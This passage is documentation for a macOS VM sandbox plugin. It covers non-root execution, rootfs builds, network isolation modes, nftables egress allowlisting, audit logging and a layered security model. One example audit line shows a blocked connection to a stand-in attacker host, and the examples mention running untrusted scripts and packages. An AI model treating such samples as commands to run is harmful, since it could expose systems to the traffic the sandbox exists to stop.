### Security & Proxy

| Variable | Description | Default |
|----------|-------------|---------|
| `DEPUTY_VZ_PROXY` | Deputy proxy URL for package manager traffic | (none) |
| `DEPUTY_VZ_STRICT_PROXY` | Enable strict proxy mode with DNS blocking (`true`/`false`) | `false` |

> **Note:** For non-root execution, use the `--user` CLI flag instead of environment variables. See [Non-Root Execution](#non-root-execution-defense-in-depth) section.

See [Security Considerations](#security-considerations) for details on security levels and strict mode.

### Non-Root Execution (Defense-in-Depth)

> [!TIP]
> **Run as non-root when possible.** While "root inside the VM" doesn't grant host access, it does give full control over the guest filesystem—including the ability to modify cached toolchains, install rootkits in the persistent rootfs, or plant files that persist across executions. Using `--user nobody` adds a meaningful layer of defense for untrusted workloads.

By default, commands run as `root` inside the VM. For defense-in-depth, you can run as an unprivileged user using the `--user` flag:

```bash
# Run as "nobody" user (recommended for most operations)
deputy exec --runtime plugin --plugin vz --user nobody \
    --workspace . \
    --network host \
    -- go build ./...

# Run as a custom "deputy" user (created if it doesn't exist)
deputy exec --runtime plugin --plugin vz --user deputy \
    --workspace . \
    -- npm install

# Run tests as non-root
deputy exec --runtime plugin --plugin vz --user nobody \
    --workspace . \
    -- go test ./...
```

> [!NOTE]
> The `--user` flag is the recommended way to specify non-root execution. It works across all sandbox runtimes and is more explicit than environment variables.

**How it works:**
- The user is created inside the VM if it doesn't exist (via `adduser`/`useradd`)
- A temporary home directory is created at `/tmp/home-<user>`
- Go/npm caches are set up in writable directories
- Environment variables (including `--env` flags) are passed through
- For overlay workspace mode, the user gets write access to the overlay upper layer

**Security benefits:**
- Limits damage if a malicious package achieves code execution
- Prevents modification of system files in the rootfs
- Follows principle of least privilege

**When you need root:**
- Installing system packages (`apk add`, `apt install`)
- Modifying system configuration
- Debugging certain permission issues

Use `--user root` if you explicitly need root access (not recommended for general use).

### Using Default Paths (Recommended)

After running `./build-alpine-rootfs.sh`, the plugin works without any environment variables:

```bash
# Works immediately after build script completes
deputy exec --runtime plugin --plugin vz -- uname -a
```

### Using Explicit Paths (Optional)

If you prefer explicit paths or have multiple rootfs configurations:

```bash
# Add to your ~/.zshrc or ~/.bashrc for persistence
export DEPUTY_VZ_KERNEL=~/.deputy/vz/alpine/vmlinuz
export DEPUTY_VZ_ROOTFS=~/.deputy/vz/alpine/rootfs.img
export DEPUTY_VZ_INITRD=~/.deputy/vz/alpine/initrd.img
```

### Verifying Your Setup

```bash
# Check what files exist
ls -la ~/.deputy/vz/

# Test the plugin
deputy exec --runtime plugin --plugin vz -- uname -a
```

## Dual-OS Setup (Ubuntu + Alpine)

The VZ plugin supports two Linux distributions:

| Distribution | Location | Kernel | virtiofs | Workspace | Network | Status |
|--------------|----------|--------|----------|-----------|---------|--------|
| **Alpine 3.23** | `~/.deputy/vz/alpine/` | 34MB (Lima) | Yes | **Yes** | **Yes** | **Recommended** - full features |
| **Ubuntu 24.04** | `~/.deputy/vz/ubuntu/` | 56MB (cloud) | No* | No | Yes | Fast boot, no workspace |

*Ubuntu's cloud kernel lacks `CONFIG_VIRTIO_FS`. Alpine's Lima kernel has virtiofs as a module.

### Directory Structure

After running `./build-alpine-rootfs.sh`, the directory structure is:

```
~/.deputy/vz/
├── vmlinuz -> alpine/vmlinuz       # Symlink for default path discovery
├── rootfs.img -> alpine/rootfs.img # Symlink for default path discovery
└── alpine/
    ├── vmlinuz                     # Lima Alpine kernel (ARM64 Image format)
    ├── initrd.img                  # Custom initramfs with virtiofs/virtio modules
    ├── rootfs.img                  # Alpine rootfs (8GB, Go 1.23.5 + Node.js 22)
    ├── initrd-stock.img            # Original Lima initrd (preserved for debugging)
    └── modloop-virt                # Squashfs of kernel modules (used during build)
```

The plugin uses default paths via symlinks - no environment variables needed!

### Using Alpine (Recommended for Workspace Mounting)

Alpine provides virtiofs support for workspace mounting. See [Quick Start with Alpine](#quick-start-with-alpine-recommended) for the complete setup.

**What `build-alpine-rootfs.sh` does:**
1. Downloads Lima's Alpine ISO (which has a kernel with virtiofs support)
2. Extracts the raw ARM64 kernel from EFI stub (VZ requires raw format)
3. Creates a custom initrd with virtiofs, virtio_blk, ext4 modules
4. Creates an 8GB ext4 rootfs with Alpine base system
5. Installs Go 1.23.5 and Node.js 22
6. Creates symlinks at `~/.deputy/vz/` for default path discovery
7. Sets proper permissions (`chmod 666` on rootfs.img for VZ)

**Environment setup (optional):**
```bash
# Only needed if you want to override defaults
export DEPUTY_VZ_KERNEL=~/.deputy/vz/alpine/vmlinuz
export DEPUTY_VZ_INITRD=~/.deputy/vz/alpine/initrd.img
export DEPUTY_VZ_ROOTFS=~/.deputy/vz/alpine/rootfs.img
```

### Switching Between Ubuntu and Alpine

```bash
# Use Ubuntu (fast boot, no workspace mounting)
unset DEPUTY_VZ_KERNEL DEPUTY_VZ_ROOTFS DEPUTY_VZ_INITRD
deputy exec --runtime plugin --plugin vz --no-workspace -- uname -a

# Use Alpine (virtiofs workspace mounting, network access)
export DEPUTY_VZ_KERNEL=~/.deputy/vz/alpine/vmlinuz
export DEPUTY_VZ_ROOTFS=~/.deputy/vz/alpine/rootfs.img
export DEPUTY_VZ_INITRD=~/.deputy/vz/alpine/initrd.img
deputy exec --runtime plugin --plugin vz --workspace . -- ls /workspace
```

## Usage Examples

### Basic Commands

```bash
# Run a command in a VM
deputy exec --runtime plugin --plugin vz -- ls -la

# Read-only mode (workspace mounted read-only)
deputy exec --runtime plugin --plugin vz --mode read-only -- cat /etc/os-release

# With memory limit
deputy exec --runtime plugin --plugin vz --memory 1g -- make build

# With CPU limit
deputy exec --runtime plugin --plugin vz --cpu 2 -- npm install

# Network isolated (no network interface)
deputy exec --runtime plugin --plugin vz --network none -- ./build.sh

# With network access (NAT via DHCP)
deputy exec --runtime plugin --plugin vz --network host -- curl -sS https://example.com

# With timeout
deputy exec --runtime plugin --plugin vz --timeout 30s -- long-running-task
```

### Passing Environment Variables

Pass custom environment variables to the VM using the `--env` flag:

```bash
# Pass a single environment variable
deputy exec --runtime plugin --plugin vz --env MY_VAR=hello -- sh -c 'echo $MY_VAR'
# Output: hello

# Pass multiple environment variables
deputy exec --runtime plugin --plugin vz \
    --env API_KEY=secret123 \
    --env DEBUG=true \
    -- sh -c 'echo "API_KEY=$API_KEY DEBUG=$DEBUG"'

# Force Go to use the pre-installed toolchain (prevents auto-download)
deputy exec --runtime plugin --plugin vz --network host \
    --env GOTOOLCHAIN=local \
    -- go version
# Output: go version go1.23.5 linux/arm64

# Pass build flags for cross-compilation
deputy exec --runtime plugin --plugin vz --network host \
    --env CGO_ENABLED=0 \
    --env GOOS=linux \
    --env GOARCH=arm64 \
    -- go build -o myapp ./cmd/myapp

# Pass npm configuration
deputy exec --runtime plugin --plugin vz --network host \
    --env NPM_CONFIG_REGISTRY=https://registry.npmjs.org \
    --env NODE_ENV=production \
    -- npm ci
```

> [!NOTE]
> The `--env` flag may trigger a confirmation prompt in interactive mode. Use `--dangerously-skip-prompt` in scripts/CI or press Enter to confirm interactively.

> [!WARNING]
> **Environment variables are visible in `/proc/cmdline`.** They are passed via the kernel command line, which is world-readable inside the VM. Do not pass secrets (API keys, tokens, passwords) via `--env`. For sensitive credentials, consider mounting a secrets file via the workspace with restricted permissions.

### Supply Chain Security (Package Manager Operations)

Run package manager commands safely in VM isolation:

```bash
# Go: Run go mod tidy in isolated VM
deputy exec --runtime plugin --plugin vz -- go mod tidy

# Go: Build and test without affecting host
deputy exec --runtime plugin --plugin vz -- go build ./...
deputy exec --runtime plugin --plugin vz -- go test ./...

# Node.js: Safe npm install with workspace isolation
deputy exec --runtime plugin --plugin vz \
    --workspace-isolation snapshot \
    --mask-preset supply-chain \
    -- npm install

# Node.js: Run npm audit to check for vulnerabilities
deputy exec --runtime plugin --plugin vz -- npm audit

# Python: Install dependencies in isolated environment
deputy exec --runtime plugin --plugin vz -- pip install -r requirements.txt
```

### Deputy Development Workflow

Use the vz plugin to develop Deputy itself in an isolated environment:

```bash
# From the deputy repository root

# Build deputy in VM
deputy exec --runtime plugin --plugin vz -- go build -o deputy-vm .

# Run tests in VM
deputy exec --runtime plugin --plugin vz -- go test ./...

# Run a specific test
deputy exec --runtime plugin --plugin vz -- go test -v -run TestScanCommand ./internal/cli/cmd/...

# Tidy modules safely
deputy exec --runtime plugin --plugin vz -- go mod tidy

# Run deputy inside deputy (inception!)
deputy exec --runtime plugin --plugin vz -- ./deputy-vm scan
```

### Workspace Isolation with VZ

Combine VM isolation with workspace isolation for maximum safety:

```bash
# Snapshot isolation: changes don't affect original workspace
deputy exec --runtime plugin --plugin vz \
    --workspace-isolation snapshot \
    -- npm install malicious-looking-package

# Review changes before applying (preserved workspace)
deputy exec --runtime plugin --plugin vz \
    --workspace-isolation snapshot \
    --preserve-workspace \
    -- npm install

# File masking: hide secrets, expose only lockfiles
deputy exec --runtime plugin --plugin vz \
    --mask-preset supply-chain \
    -- npm audit
```

## Custom Rootfs Builds

### Customization Points

You can customize the VZ sandbox at several levels:


```mermaid
flowchart TB
    subgraph Level1["Level 1: Runtime Flags"]
        direction LR
        F1["<code>--cpu 4</code><br/>CPU cores"]
        F2["<code>--memory 4g</code><br/>RAM allocation"]
        F3["<code>--network host</code><br/>Network access"]
        F4["<code>--mode full-access</code><br/>Write to workspace"]
    end

    subgraph Level2["Level 2: Build Script Options"]
        direction LR
        B1["<code>--go-version 1.23</code><br/>Go version"]
        B2["<code>--size 16384</code><br/>Rootfs size (MB)"]
        B3["<code>--minimal</code><br/>No dev tools"]
    end

    subgraph Level3["Level 3: Add Packages"]
        direction TB
        P1["Docker + mount rootfs.img"]
        P2["<code>apk add python3 rust cargo</code>"]
        P3["Install custom tools"]
    end

    subgraph Level4["Level 4: Custom Init Script"]
        direction TB
        I1["Modify deputy-init in<br/>build-alpine-rootfs.sh"]
        I2["Add environment variables"]
        I3["Change boot behavior"]
    end

    subgraph Level5["Level 5: Custom Kernel"]
        direction TB
        K1["Build Linux kernel with<br/>custom CONFIG options"]
        K2["Add kernel modules"]
        K3["Enable features like<br/>netfilter for nftables"]
    end

    Level1 -->|"Easiest"| Level2
    Level2 --> Level3
    Level3 --> Level4
    Level4 -->|"Most Complex"| Level5

    style Level1 fill:#c8e6c9,stroke:#2e7d32
    style Level2 fill:#e8f5e9,stroke:#2e7d32
    style Level3 fill:#fff3e0,stroke:#e65100
    style Level4 fill:#ffecb3,stroke:#ff8f00
    style Level5 fill:#ffcdd2,stroke:#c62828
```

The `build-rootfs.sh` script creates customized rootfs images:

```bash
# Developer rootfs (Go + Node.js + build tools) - default
./build-rootfs.sh

# Minimal rootfs (Ubuntu base only, smaller)
./build-rootfs.sh --minimal

# Larger rootfs for more packages
./build-rootfs.sh --size 4096

# Custom Go version (e.g., match your project's go.mod)
./build-rootfs.sh --go-version 1.25.5

# Custom output directory
./build-rootfs.sh --output /path/to/assets
```

Or use the Makefile targets:

```bash
make rootfs          # Developer rootfs with Go/Node
make rootfs-minimal  # Minimal Ubuntu rootfs
```

### What's Included in Developer Rootfs

| Component | Version | Purpose |
|-----------|---------|---------|
| Ubuntu | 24.04 LTS | Base system |
| Go | 1.25.5 (configurable via `--go-version`) | Go toolchain |
| Node.js | 22 LTS | JavaScript runtime |
| npm | Latest | Package manager |
| gcc/g++ | System | C/C++ compiler |
| make | System | Build system |
| git | System | Version control |
| curl/wget | System | HTTP clients |

## Using Other Linux Distributions

### Debian

```bash
# Download Debian cloud image
curl -LO https://cloud.debian.org/images/cloud/bookworm/latest/debian-12-generic-arm64.raw

# Extract or download kernel
# Copy rootfs
cp debian-12-generic-arm64.raw ~/.deputy/vz/rootfs.img
```

### Fedora

```bash
# Download Fedora kernel and initrd
RELEASE=40
curl -LO https://download.fedoraproject.org/pub/fedora/linux/releases/${RELEASE}/Everything/aarch64/os/images/pxeboot/vmlinuz
curl -LO https://download.fedoraproject.org/pub/fedora/linux/releases/${RELEASE}/Everything/aarch64/os/images/pxeboot/initrd.img
```

### Custom Kernel

Build your own kernel with minimal config:

```bash
git clone --depth 1 https://github.com/torvalds/linux.git
cd linux

# Use a minimal ARM64 config
make ARCH=arm64 defconfig

# Enable virtio drivers (required)
./scripts/config --enable VIRTIO
./scripts/config --enable VIRTIO_BLK
./scripts/config --enable VIRTIO_NET
./scripts/config --enable VIRTIO_CONSOLE
./scripts/config --enable VIRTIO_FS
./scripts/config --enable FUSE_FS

# Build
make ARCH=arm64 CROSS_COMPILE=aarch64-linux-gnu- -j$(nproc)

# Output is arch/arm64/boot/Image
cp arch/arm64/boot/Image ~/.deputy/vz/vmlinuz
```

## Capabilities

| Capability | Supported | Notes |
|------------|-----------|-------|
| Network Isolation | Yes | NAT or none via virtio-net |
| Filesystem Isolation | Yes | Full VM boundary |
| Resource Limits | Yes | CPU cores, memory |
| Seccomp | No | N/A for VMs |
| AppArmor/SELinux | No | N/A for VMs |
| Streaming Output | Yes | Via virtio-console |
| Interactive Stdin | Yes | Via virtio-console |
| Workspace Mounting | Yes | Alpine kernel with virtiofs (see below) |
| GPU Passthrough | No | Not yet implemented |

## Supported Modes

| Mode | Description |
|------|-------------|
| `read-only` | Workspace mounted read-only inside VM |
| `workspace-write` | Workspace mounted read-write (default) |
| `ephemeral` | Changes discarded after execution |
| `network-isolated` | No network interface attached |

## Architecture

```
+-------------------------------------------------------------+
|                    Deputy CLI / Agent                        |
+-----------------------------+-------------------------------+
                              | ConnectRPC (Unix Socket)
                              v
+-------------------------------------------------------------+
|                  deputy-sandbox-vz Plugin                    |
|  - Receives ExecuteRequest                                   |
|  - Creates VM configuration                                  |
|  - Manages VM lifecycle                                      |
|  - Streams output via virtio-console                         |
+-----------------------------+-------------------------------+
                              | Virtualization.framework
                              v
+-------------------------------------------------------------+
|                    Lightweight VM                            |
|  +-------------------------------------------------------+  |
|  | Linux Guest                                           |  |
|  |  - virtio-blk: rootfs disk                            |  |
|  |  - virtio-fs: workspace directory                     |  |
|  |  - virtio-console: stdin/stdout/stderr                |  |
|  |  - virtio-net: network (if enabled)                   |  |
|  |  - virtio-balloon: memory management                  |  |
|  |  - virtio-entropy: randomness                         |  |
|  +-------------------------------------------------------+  |
+-------------------------------------------------------------+
```

## Security Model

### Defense-in-Depth Architecture ("Security Onion")

> [!IMPORTANT]
> **Layer 1 (Hypervisor) is doing the heavy lifting.** While this diagram shows five "layers," don't let the visual imply they're equally strong. The hypervisor boundary (Layer 1) provides the actual containment. Layers 2-4 are defense-in-depth—useful for limiting damage *within* the VM, but the hypervisor is what prevents escape to the host. If the hypervisor is compromised, the other layers provide minimal additional protection.

The VZ plugin implements multiple concentric security layers. An attacker must compromise **all** layers to escape:


```mermaid
flowchart TB
    subgraph Layer0["<b>Layer 0: macOS Host</b><br/><i style='color:#666'>Untrusted code NEVER runs here</i>"]
        direction TB

        subgraph HostProcesses["Host Processes"]
            Deputy["<b>deputy CLI</b><br/>Orchestrates execution"]
            Plugin["<b>deputy-sandbox-vz</b><br/>ConnectRPC server<br/><i>Manages VM lifecycle</i>"]
        end

        subgraph HostAssets["Host Assets (Read-Only to VM)"]
            Kernel["vmlinuz<br/><i>Kernel binary</i>"]
            Initrd["initrd.img<br/><i>Initial ramdisk</i>"]
            Rootfs["rootfs.img<br/><i>ext4 filesystem</i>"]
        end

        subgraph HostNetwork["Host Network Stack"]
            vmnet["vmnet NAT Gateway<br/><code>192.168.64.1</code>"]
            HostInternet["Internet"]
        end

        subgraph HostFS["Host Filesystem"]
            Workspace["<b>/Users/you/project</b><br/>Your source code"]
            Home["~/.deputy/vz/"]
        end
    end

    subgraph Layer1["<b>Layer 1: Apple Hypervisor.framework</b><br/><i style='color:#666'>Hardware-backed isolation boundary</i>"]
        direction TB
        HV["<b>Hypervisor.framework</b><br/>ARM64 hardware virtualization<br/><i>No kernel modules needed</i>"]

        subgraph VMConfig["VM Configuration (Host-Controlled)"]
            vCPU["vCPUs: 1-8<br/><i>--cpu N</i>"]
            vMem["Memory: 256MB-16GB<br/><i>--memory Xg</i>"]
            vDevices["<b>virtio Devices Only</b><br/>No PCI passthrough"]
        end
    end

    subgraph Layer2["<b>Layer 2: Linux Kernel</b><br/><i style='color:#666'>Separate from host kernel</i>"]
        direction TB
        GuestKernel["<b>Linux 6.18.2-0-virt</b><br/>Alpine/Lima kernel<br/><i>Minimal attack surface</i>"]

        subgraph KernelSecurity["Kernel Security Features"]
            KASLR["KASLR enabled"]
            Netfilter["nftables/netfilter<br/><i>Egress filtering</i>"]
            SecComp["seccomp available"]
        end
    end

    subgraph Layer3["<b>Layer 3: Userspace (deputy-init)</b><br/><i style='color:#666'>Controlled execution environment</i>"]
        direction TB
        Init["<b>/deputy-init</b><br/>PID 1 init script<br/><i>Parses kernel cmdline</i>"]

        subgraph UserspaceSecurity["Userspace Controls"]
            NonRoot["Non-root user<br/><i>--user nobody</i>"]
            ReadOnlyFS["Read-only mounts<br/><i>--mode read-only</i>"]
            Overlay["Overlay isolation<br/><i>--workspace-isolation overlay</i>"]
        end

        subgraph Execution["Command Execution"]
            UserCmd["<b>Your command</b><br/><code>go build ./...</code>"]
        end
    end

    subgraph Layer4["<b>Layer 4: virtio Device Boundaries</b><br/><i style='color:#666'>Constrained I/O channels</i>"]
        direction LR

        subgraph VirtioDevices["virtio Devices (All Traffic Auditable)"]
            VBlk["<b>virtio-blk</b><br/>/dev/vda → rootfs.img<br/><i>Read-write to ephemeral clone</i>"]
            VFS["<b>virtio-fs</b><br/>/workspace → host dir<br/><i>Configurable: RO/RW/overlay</i>"]
            VNet["<b>virtio-net</b><br/>eth0 → vmnet NAT<br/><i>Optional, disabled by default</i>"]
            VCon["<b>virtio-console</b><br/>stdin/stdout only<br/><i>No TTY escape sequences</i>"]
        end
    end

    %% Connections showing data flow
    Deputy -->|"Unix socket"| Plugin
    Plugin -->|"VM lifecycle API"| HV
    HV -->|"Hardware isolation"| GuestKernel
    GuestKernel --> Init
    Init --> UserCmd

    Kernel -.->|"Boot"| GuestKernel
    Rootfs -.->|"Clone (COW)"| VBlk
    Workspace <-.->|"virtio-fs"| VFS
    vmnet <-.->|"NAT (optional)"| VNet
    Plugin <-.->|"Console I/O"| VCon
    vmnet --> HostInternet

    %% Styling
    style Layer0 fill:#e3f2fd,stroke:#1565c0,stroke-width:3px
    style Layer1 fill:#fff3e0,stroke:#e65100,stroke-width:3px
    style Layer2 fill:#f3e5f5,stroke:#7b1fa2,stroke-width:3px
    style Layer3 fill:#e8f5e9,stroke:#2e7d32,stroke-width:3px
    style Layer4 fill:#fce4ec,stroke:#c2185b,stroke-width:3px

    style HV fill:#fff3e0,stroke:#e65100
    style GuestKernel fill:#f3e5f5,stroke:#7b1fa2
    style Init fill:#e8f5e9,stroke:#2e7d32
    style UserCmd fill:#ffcdd2,stroke:#c62828
```

### Security Boundaries Summary

| Layer | Component | What it Protects | Compromise Required |
|-------|-----------|------------------|---------------------|
| **0** | macOS Host | Your files, credentials, other apps | N/A (never runs untrusted code) |
| **1** | Hypervisor.framework | Host kernel, other VMs | Hypervisor escape (extremely rare) |
| **2** | Guest Linux Kernel | Host via syscall interface | Kernel exploit + hypervisor escape |
| **3** | deputy-init / userspace | Privilege escalation in VM | Userspace exploit + kernel + hypervisor |
| **4** | virtio devices | I/O channel abuse | Device driver bug + all above |

### Ingress/Egress Control Points


```mermaid
flowchart LR
    subgraph Ingress["<b>INGRESS</b><br/><i>What enters the VM</i>"]
        direction TB
        I1["<b>Kernel cmdline</b><br/>Command, env vars, config<br/><i>Base64 encoded, host-controlled</i>"]
        I2["<b>virtio-fs</b><br/>Workspace files<br/><i>Can be read-only</i>"]
        I3["<b>virtio-blk</b><br/>Rootfs (tools, runtime)<br/><i>Ephemeral COW clone</i>"]
        I4["<b>virtio-net</b><br/>Network packets<br/><i>Disabled by default</i>"]
    end

    subgraph Controls["<b>CONTROLS</b>"]
        direction TB
        C1["<code>--mode read-only</code><br/>Workspace read-only"]
        C2["<code>--network none</code><br/>No network device"]
        C3["<code>--network allowlist</code><br/>nftables egress filter"]
        C4["<code>--user nobody</code><br/>Non-root execution"]
        C5["<code>--workspace-isolation</code><br/>overlay/snapshot/git-worktree"]
    end

    subgraph Egress["<b>EGRESS</b><br/><i>What leaves the VM</i>"]
        direction TB
        E1["<b>virtio-console</b><br/>stdout/stderr<br/><i>Parsed by plugin</i>"]
        E2["<b>virtio-fs</b><br/>File changes<br/><i>Can be blocked/reviewed</i>"]
        E3["<b>virtio-net</b><br/>Network traffic<br/><i>Auditable, filterable</i>"]
        E4["<b>Exit code</b><br/>0-255<br/><i>Parsed from output</i>"]
    end

    I1 --> Controls
    I2 --> Controls
    I3 --> Controls
    I4 --> Controls
    Controls --> E1
    Controls --> E2
    Controls --> E3
    Controls --> E4

    style Ingress fill:#e3f2fd,stroke:#1565c0
    style Controls fill:#fff3e0,stroke:#e65100
    style Egress fill:#ffcdd2,stroke:#c62828
```

### Attack Surface Analysis

| Attack Vector | Default State | Mitigation | How to Harden Further |
|---------------|---------------|------------|----------------------|
| **Network exfiltration** | Blocked (no eth0) | `--network none` default | Use `--network allowlist` for restricted access |
| **Filesystem escape** | Contained | virtio-fs boundaries | `--mode read-only`, `--workspace-isolation overlay` |
| **Privilege escalation** | root in VM | Isolated kernel | `--user nobody` for non-root execution |
| **Supply chain attack** | Possible during build | Network disabled post-fetch | Two-phase execution, strict proxy mode |
| **Symlink traversal** | Possible in workspace | virtio-fs path resolution | `os.Root`-based cleanup (Go 1.24+) |
| **Rootfs tampering** | Possible | Ephemeral COW clones | Changes discarded after execution |
| **Time-of-check attacks** | Possible | N/A | Use overlay mode for atomic changes |

### Current Limitations & Future Improvements

| Current State | Limitation | Future Improvement |
|---------------|------------|-------------------|
| Root in VM by default | Process runs as root | `--user` flag to run as non-root |
| Single VM user | No user namespace mapping | UID/GID mapping for workspace files |
| No nested virtualization | Can't run Docker/gVisor in VM | Nested virt support in future macOS |
| Trust rootfs contents | Must trust build script | Signed/verified rootfs images |
| No seccomp by default | All syscalls allowed | Syscall allowlist profile |
| No resource quotas | CPU/mem soft limits only | cgroups-based hard limits |

### Defense-in-Depth Checklist

For maximum security when running untrusted code:

```bash
# Maximum isolation configuration
deputy exec --runtime plugin --plugin vz \
    --network none \                          # No network device
    --mode read-only \                        # Workspace read-only
    --workspace-isolation snapshot \          # Full copy, changes isolated
    --user nobody \                           # Non-root execution
    --cpu 1 \                                 # Limit CPU
    --memory 512m \                           # Limit memory
    -- ./untrusted-script.sh

# Dependency installation with network (controlled)
deputy exec --runtime plugin --plugin vz \
    --network allowlist \                     # Filtered network
    --network-allow 'proxy.golang.org:443' \  # Only Go proxy
    --network-allow 'sum.golang.org:443' \    # Only Go checksum
    --network-audit blocked \                 # Log blocked connections
    --workspace-isolation overlay \           # Changes in overlay
    --preserve-workspace \                    # Review before applying
    -- go mod download

# Two-phase for maximum supply chain security
deputy exec --runtime plugin --plugin vz \
    --two-phase \                             # Network in phase 1, offline in phase 2
    --prefetch-command 'go mod download' \    # Fetch with network
    -- go build ./...                         # Build offline
```

The VM boundary provides stronger isolation than containers:

1. **Separate Kernel**: Each VM runs its own kernel; kernel vulnerabilities cannot escape
2. **Hardware Isolation**: Uses Apple's Hypervisor.framework for hardware-backed isolation
3. **No Shared State**: Unlike containers, VMs don't share cgroups, namespaces, or kernel state
4. **Controlled I/O**: All I/O goes through virtio devices which can be audited
5. **No Root Required**: Uses user-space virtualization, no elevated privileges needed

### Comparison with Other Runtimes

| Aspect | none | sandbox-exec | docker | gvisor | vz |
|--------|------|--------------|--------|--------|-----|
| Isolation Level | None | Process | Namespace | Syscall | VM |
| Kernel Shared | Yes | Yes | Yes | Partially | No |
| Escape Risk | High | Medium | Medium | Low | Very Low |
| Startup Time | ~1ms | ~5ms | ~100ms | ~50ms | ~70ms |
| Overhead | None | Low | Low | Medium | Medium |

### Network Modes

> [!TIP]
> **Network isolation is genuine.** When `--network none` is specified (the default), no `eth0` device exists in the VM—there's no network stack to attack. This is unlike some container runtimes where "no network" still leaves a loopback interface with potential IPC channels. With VZ, disabled network means the virtio-net device is never attached to the VM configuration.

The VZ plugin supports multiple network modes that control VM network access:

| Mode | Flag | Description | Use Case |
|------|------|-------------|----------|
| `NONE` | `--network none` | No network device attached | Maximum isolation (default) |
| `HOST` | `--network host` | NAT networking via vmnet | Download dependencies, access internet |
| `BRIDGE` | `--network bridge` | NAT networking (bridged unavailable) | Same as HOST* |
| `ALLOWLIST` | `--network allowlist` | NAT + guest nftables filtering | Restricted access |

*True bridged networking requires `com.apple.vm.networking` entitlement which is restricted and can't be used with ad-hoc code signing. BRIDGE mode falls back to NAT.

### Network Audit Mode

For debugging and security monitoring, the `--network-audit` flag logs network connection attempts:

| Mode | Description |
|------|-------------|
| `blocked` | Log only blocked/dropped connections (useful for debugging allowlist) |
| `all` | Log all connections (both allowed and blocked) |

```bash
# Debug which connections are being blocked
deputy exec --runtime plugin --plugin vz \
    --network allowlist \
    --network-allow 'proxy.golang.org:443' \
    --network-audit blocked \
    -- go build ./...

# Full visibility into network activity
deputy exec --runtime plugin --plugin vz \
    --network host \
    --network-audit all \
    -- npm install
```

**Note:** Network audit currently outputs to the VM's stdout which is visible in debug logs. With `--network allowlist` mode, nftables logs both allowed and dropped connections. With `--network host`, all connections are allowed so only `all` mode shows traffic.

#### Network Audit Event Format

The plugin parses network audit events from the VM's nftables log and outputs them in a structured format:

```
<<<DEPUTY_NETAUDIT:ALLOW:TCP:proxy.golang.org:443>>>
<<<DEPUTY_NETAUDIT:DROP:TCP:evil.example.com:443>>>
```

**Current implementation:**
- Events are parsed by the VZ plugin and logged via `slog.Debug()`
- Events are visible when running with `DEPUTY_LOG_LEVEL=debug`

#### Future: OpenTelemetry Integration

The path forward for production-ready network audit monitoring integrates with Deputy's existing OpenTelemetry infrastructure (`internal/otel/metrics.go`). This will enable:

1. **Metrics Export**: Network connections as OTel metrics
   - `deputy.sandbox.network.connections` counter with attributes:
     - `action`: "allow" | "drop"
     - `protocol`: "TCP" | "UDP"
     - `destination`: hostname or IP
     - `port`: destination port
   - `deputy.sandbox.network.blocked_total` counter for security alerting

2. **Span Events**: Network audit entries as span events on the sandbox execution trace
   - Correlates network activity with specific command executions
   - Enables distributed trace analysis in Jaeger/Tempo

3. **Log Export**: Structured logs via OTel log SDK
   - JSON-formatted audit log entries
   - Compatible with log aggregation systems (Loki, Elasticsearch)

**Proposed CLI flags:**
```bash
# Export network audit to OTel (requires OTEL_EXPORTER_OTLP_ENDPOINT)
deputy exec --runtime plugin --plugin vz \
    --network allowlist \
    --network-allow 'proxy.golang.org:443' \
    --network-audit all \
    --network-audit-export otel \
    -- go build ./...

# Export to local JSON file
deputy exec --runtime plugin --plugin vz \
    --network-audit all \
    --network-audit-export file \
    --network-audit-file ./network-audit.jsonl \
    -- npm install
```

**Implementation path:**
1. Add `SandboxNetworkConnection` metric to `internal/otel/metrics.go`
2. Update sandbox manager to accept network audit events from plugins
3. Forward events to OTel via `RecordSandboxNetworkConnection()` helper
4. Add `--network-audit-export` flag to `deputy exec`

### Network Architecture


```mermaid
flowchart TB
    subgraph VM["Alpine Linux VM"]
        App["Application<br/><code>go build ./...</code>"]
        eth0["eth0<br/><code>192.168.64.x</code>"]
    end

    subgraph macOS["macOS Host"]
        vmnet["vmnet NAT Gateway<br/><code>192.168.64.1</code>"]
        DHCP["DHCP Server"]
        NAT["NAT Engine"]
    end

    subgraph Internet["Internet"]
        DNS["1.1.1.1<br/><i>Cloudflare DNS</i>"]
        Proxy["proxy.golang.org"]
        NPM["registry.npmjs.org"]
    end

    App --> eth0
    eth0 <-->|"DHCP"| DHCP
    eth0 -->|"Traffic"| vmnet
    vmnet --> NAT
    NAT --> DNS & Proxy & NPM

    note["vmnet gateway does NOT<br/>forward DNS queries!"]
    vmnet -.-> note

    style note fill:#fff3e0,stroke:#e65100
```

**How NAT networking works:**
1. The VM boots with a virtio-net device attached (`eth0`)
2. The `deputy-init` script brings up the interface and runs `dhclient` or `udhcpc`
3. macOS vmnet assigns an IP from the `192.168.64.0/24` subnet
4. DNS resolution uses public DNS servers (1.1.1.1, 8.8.8.8) since vmnet gateway doesn't forward DNS

### Network Mode Examples

```bash
# No network (default, maximum isolation)
deputy exec --runtime plugin --plugin vz -- ./offline-tool

# NAT networking for downloading dependencies
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network host \
    -- go build ./...

# Bridge mode (uses NAT due to entitlement restrictions)
deputy exec --runtime plugin --plugin vz \
    --network bridge \
    -- curl https://example.com

# Allowlist mode (requires kernel netfilter support)
deputy exec --runtime plugin --plugin vz \
    --network allowlist \
    --network-allow proxy.golang.org \
    --network-allow sum.golang.org \
    -- go build ./...
```

### Network Mode Comparison

| Feature | NONE | HOST | BRIDGE | ALLOWLIST |
|---------|------|------|--------|-----------|
| Network device | No | Yes | Yes | Yes |
| Internet access | No | Yes | Yes | Restricted |
| Isolation | Maximum | NAT boundary | NAT boundary | NAT + filtering |
| DNS queries | N/A | Public DNS | Public DNS | Public DNS |
| Outbound connections | Blocked | Allowed | Allowed | Allowlist only* |

*Allowlist enforcement requires kernel with `CONFIG_NETFILTER=y`

**Isolation guarantee:** When `--network none` (the default), no network device is attached to the VM. The VM has no eth0 interface and cannot make any network connections, regardless of DNS configuration or other settings. This provides complete network isolation at the hypervisor level.

**Requirements for network modes:**
- The rootfs must include a DHCP client (`dhclient` or `udhcpc`)
- The rootfs built by `build-alpine-rootfs.sh` includes both by default

### ALLOWLIST Mode: Egress Filtering

ALLOWLIST mode provides network egress filtering using **nftables in the guest kernel**. This enables fine-grained control over which hosts the VM can connect to, preventing data exfiltration and limiting supply chain attack surface.

**How it works:**


```mermaid
flowchart TB
    subgraph VM["Alpine Linux VM"]
        App["Application<br/><code>npm install lodash</code>"]
